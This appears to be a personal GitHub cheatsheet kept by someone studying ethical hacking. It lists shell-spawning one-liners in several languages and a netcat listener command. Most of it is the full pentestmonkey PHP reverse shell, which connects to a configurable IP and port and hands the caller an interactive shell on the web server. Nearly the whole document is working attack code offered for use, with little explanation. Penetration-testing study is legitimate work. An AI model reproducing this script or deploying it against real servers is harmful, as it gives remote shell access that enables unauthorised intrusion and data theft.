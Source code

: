 # MyHackingCheatsheet
while I am studing ethical hacking I will add usefull commands and scripts
<h4>shell spawn</h4>
<ul>
    <li>python3 -c 'import pty; pty.spawn("/bin/bash")'</li>
    <li>echo os.system('/bin/bash')</li>
    <li>/bin/bash -i</li>
    <li>perl —e 'exec "/bin/bash";'</li>
    <li>perl: exec "/bin/bash";</li>
    <li>ruby: exec "/bin/bash"</li>
    <li>lua: os.execute('/bin/bash')</li>
</ul>

<h4>php reverse shell  script </h4>
<p>nc -lvnp 1234</p>
<pre><?php
    // php-reverse-shell - A Reverse Shell implementation in PHP
    // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  The author accepts no liability
    // for damage caused by this tool.  If these terms are not acceptable to you, then
    // do not use this tool.
    //
    // In all other respects the GPL version 2 applies:
    //
    // This program is free software; you can redistribute it and/or modify
    // it under the terms of the GNU General Public License version 2 as
    // published by the Free Software Foundation.
    //
    // This program is distributed in the hope that it will be useful,
    // but WITHOUT ANY WARRANTY; without even the implied warranty of
    // MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    // GNU General Public License for more details.
    //
    // You should have received a copy of the GNU General Public License along
    // with this program; if not, write to the Free Software Foundation, Inc.,
    // 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  If these terms are not acceptable to
    // you, then do not use this tool.
    //
    // You are encouraged to send comments, improvements or suggestions to
    // me at pentestmonkey@pentestmonkey.net
    //
    // Description
    // -----------
    // This script will make an outbound TCP connection to a hardcoded IP and port.
    // The recipient will be given a shell running as the current user (apache normally).
    //
    // Limitations
    // -----------
    // proc_open and stream_set_blocking require PHP version 4.3+, or 5+
    // Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
    // Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
    //
    // Usage
    // -----
    // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
    
    set_time_limit (0);
    $VERSION = "1.0";
    <b>$ip = '127.0.0.1';  // CHANGE THIS
    $port = 1234;       // CHANGE THIS</b>
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;
    
    //
    // Daemonise ourself if possible to avoid zombies later
    //
    
    // pcntl_fork is hardly ever available, but will allow us to daemonise
    // our php process and avoid zombies.  Worth a try...
    if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();
        
        if ($pid == -1) {
            printit("ERROR: Can't fork");
            exit(1);
        }
        
        if ($pid) {
            exit(0);  // Parent exits
        }
    
        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
            printit("Error: Can't setsid()");
            exit(1);
        }
    
        $daemon = 1;
    } else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }
    
    // Change to a safe directory
    chdir("/");
    
    // Remove any umask we inherited
    umask(0);
    
    //
    // Do the reverse shell...
    //
    
    // Open reverse connection
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
    }
    
    // Spawn shell process
    $descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
       1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
       2 => array("pipe", "w")   // stderr is a pipe that the child will write to
    );
    
    $process = proc_open($shell, $descriptorspec, $pipes);
    
    if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
    }
    
    // Set everything to non-blocking
    // Reason: Occsionally reads will block, even though stream_select tells us they won't
    stream_set_blocking($pipes[0], 0);
    stream_set_blocking($pipes[1], 0);
    stream_set_blocking($pipes[2], 0);
    stream_set_blocking($sock, 0);
    
    printit("Successfully opened reverse shell to $ip:$port");
    
    while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
            printit("ERROR: Shell connection terminated");
            break;
        }
    
        // Check for end of STDOUT
        if (feof($pipes[1])) {
            printit("ERROR: Shell process terminated");
            break;
        }
    
        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    
        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
            if ($debug) printit("SOCK READ");
            $input = fread($sock, $chunk_size);
            if ($debug) printit("SOCK: $input");
            fwrite($pipes[0], $input);
        }
    
        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
            if ($debug) printit("STDOUT READ");
            $input = fread($pipes[1], $chunk_size);
            if ($debug) printit("STDOUT: $input");
            fwrite($sock, $input);
        }
    
        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
            if ($debug) printit("STDERR READ");
            $input = fread($pipes[2], $chunk_size);
            if ($debug) printit("STDERR: $input");
            fwrite($sock, $input);
        }
    }
    
    fclose($sock);
    fclose($pipes[0]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);
    
    // Like print, but does nothing if we've daemonised ourself
    // (I can't figure out how to redirect STDOUT like a proper daemon)
    function printit ($string) {
        if (!$daemon) {
            print "$string\n";
        }
    }
    
    ?> </pre>
